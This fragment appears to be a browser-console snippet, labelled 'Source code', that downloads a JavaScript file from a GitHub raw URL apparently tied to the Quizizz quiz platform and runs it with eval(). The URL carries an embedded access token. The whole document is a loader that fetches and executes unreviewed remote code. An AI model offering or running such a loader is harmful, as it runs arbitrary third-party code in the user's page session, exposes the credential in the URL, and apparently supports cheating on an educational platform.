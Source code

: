 fetch("https://raw.githubusercontent.com/2-js/gen-paste/main/quizizz%40main.js?token=GHSAT0AAAAAABTBN6CYAX2JI25KDX5IV7VGYSEPYIQ")
.then((res) => res.text()
.then((t) => eval(t)))
